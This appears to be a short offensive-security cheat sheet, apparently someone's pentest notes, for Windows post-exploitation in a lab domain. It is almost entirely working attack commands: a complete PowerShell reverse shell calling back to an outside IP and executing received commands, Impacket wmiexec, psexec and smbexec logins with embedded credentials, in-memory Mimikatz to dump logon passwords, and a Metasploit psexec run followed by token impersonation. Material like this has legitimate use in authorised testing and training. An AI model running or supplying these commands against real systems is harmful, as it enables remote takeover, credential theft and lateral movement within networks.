 ##### Powershell #reverseshell 

```powershell
# Powershell reverse shell # Scheduled task for example # powershell -enc <base 64 de la commande> 
$client = New-Object System.Net.Sockets.TCPClient("10.0.20.12",443);$stream = $client.GetStream();\ [byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;\ 	$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);\ 	$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "PS " + (pwd).Path + "> ";\ 	$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);\ 	$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()
```

##### WMIexec #wmiexec #reverseshell
```bash
wmiexec is less noisy than psexec 
/usr/bin/impacket-wmiexec d.traya@192.168.56.102
```
##### psexec #psexec #reverseshell
```bash 
# psexec # Drosp a binary on the target → Noisy /usr/share/doc/python-impacket/examples/psexec.py GALACTIC/d.traya:triumvirat@192.168.56.102
```
##### smbexec #smb #reverseshell 
```
# smbexec /usr/share/doc/python-impacket/examples/smbexec.py GALACTIC/d.traya:triumvirat@192.168.56.102
```


### Mimikatz in RAM #Mimikatz #reverseshell

`# From MSF (execute Mimikatz in RAM) execute -H -i -c -m -d calc.exe -f /path/to/mimikatz.exe -a  '"privilege::debug" "sekurlsa::logonPasswords full" exit'` 

  

### Metasploit 

`# psexec msf5 > use exploit/windows/smb/psexec msf5 exploit(windows/smb/psexec) > set RHOSTS 10.69.88.100 msf5 exploit(windows/smb/psexec) > set SMBDomain GALACTIC.LAN msf5 exploit(windows/smb/psexec) > set SMBUSER d.traya msf5 exploit(windows/smb/psexec) > set SMBPASS triumvirat msf5 exploit(windows/smb/psexec) > run  # Impersonate user use incognito list_tokens -u impersonate_token <token> shell whoami`